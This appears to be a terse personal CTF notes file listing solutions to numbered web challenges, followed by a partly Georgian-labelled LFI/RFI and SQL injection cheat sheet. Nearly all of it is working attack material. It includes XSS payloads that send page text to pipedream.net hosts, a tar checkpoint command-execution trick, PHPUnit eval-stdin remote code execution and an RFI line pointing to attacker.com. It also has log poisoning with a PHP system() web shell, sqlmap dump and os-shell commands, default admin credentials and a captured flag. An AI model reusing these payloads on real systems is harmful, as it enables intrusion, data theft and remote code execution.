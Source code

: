 # RED


1.tartarsausage  -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec="ls"        dirsearch -u http://35.246.139.54:31660/enhjenhzZGN3YWRzYWRhc2Rhc3NhY2FzY2FzY2FzY2FjYWNzZHNhY2FzY2Fzc2FjY2Fz/ -e php,txt,html


2.Frameble     <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>      AN          <script>fetch('https://enxe7m9zrqkto.x.pipedream.net?data='+document.body.innerText);</script>


-3.rundown     curl -X OPTIONS http://35.246.139.54:30595 -i         http://35.246.139.54:30595/console             curl -X POST http://35.246.139.54:30595 -d "cmd=cat /flag.txt" (ase vipovit rom pickle a)

-4. online-encryption


5 manual-review <script> fetch('https://eoxmt8wpvlva3h2.m.pipedream.net?data='+document.body.innerText); </script>


-6 bolt    http://34.159.151.77:31474/bolt/login admin:password

7 alfa-cookies- https://drive.google.com/file/d/1YjUzKJJnrR0L5DNr3H8GSDFRz73d6ekM/view

8 nondiff-backdoor   grep -r "shell.exec"    34.159.62.179:30876/?welldone=knockknock&shazam=cat flag.php    CTF{87702788126237df9c4a915fea9441345dc6b3a0272b214b2c31e50a8f89c4b1}

9 schematick sqlmap -u http://34.159.62.179:32027/index.php  --cookie="PHPSESSID=e40e1c0f2baba9b6b6d07033355f0819" --forms --columns


10 elastic python exploit.py http://35.198.97.185:31763/ /etc/passwd
11 libshh  https://github.com/nikhil1232/LibSSH-Authentication-Bypass

12 authorization  dirsearch -u IP                     curl -X POST http://34.159.62.179:30798/auth             (aplikacia) ModHeader: Authorization        JWT   <TOKEM>

13 PHPunit  http://35.246.139.54:31380/composer.json    curl -X POST --data '<?php system("id"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php


curl -X POST --data '<?php system("cat /flag.txt"); ?>' http://35.246.139.54:31380/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

14


https://jorgectf.github.io/blog/post/cyberedu-web-challenges/#rundown 
(alien-inclusion
address
broken-login
manual-review
rundown
slightly-broken
ping-station
downloader-v1
puzzled)





































საბაზისო LFI:

http://example.com/?page=../../../../etc/passwd
http://example.com/?file=file:///etc/passwd
PHP Wrapper-ები:

http://example.com/?page=php://filter/convert.base64-encode/resource=index.php
http://example.com/?page=data://text/plain,<?php system("id"); ?>
RFI (Remote File Inclusion):

http://example.com/?page=http://attacker.com/shell.txt
Log Poisoning (Apache/Nginx):

curl "http://example.com" -H "User-Agent: <?php system($_GET['cmd']); ?>"
http://example.com/?page=/var/log/apache2/access.log&cmd=id


sqlmap -u "http://example.com/?id=1" --dbs
sqlmap -u "http://example.com/?id=1" -D database_name --tables
sqlmap -u "http://example.com/?id=1" -D database_name -T users --dump
sqlmap -u "http://example.com/?id=1" --os-shell
